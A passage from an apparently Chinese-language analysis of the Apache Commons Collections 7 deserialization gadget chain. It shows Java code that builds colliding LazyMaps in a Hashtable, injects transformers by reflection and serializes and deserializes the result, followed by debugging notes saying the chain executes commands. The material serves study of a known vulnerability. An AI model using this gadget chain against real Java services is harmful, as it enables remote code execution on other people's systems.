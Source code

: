 ```java

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy",1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);


        Hashtable hashtable = new Hashtable();

        hashtable.put(lazyMap1, 2);
        hashtable.put(lazyMap2, 1);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
        lazyMap2.remove("yy");
        try {
            FileOutputStream fileOutputStream = new FileOutputStream("cc7.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashtable);

            FileInputStream fileInputStream = new FileInputStream("cc7.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
## 调试
直接在`LazyMap#get`处打上断点，可以清晰看到对应的反序列化堆栈，就和序列化是一样的，最后把lazymap2里多余的键值对删除，并将其`Transformer factor`更改为cc1的经典transformers，然后再链式调用即可执行命令

![image.png](Commons Collections 7 分析.assets/2023_05_19_10_37_50_UNaBeXyA.png)

![image.png](Commons Collections 7 分析.assets/2023_05_19_10_37_50_akfZPQip.png)


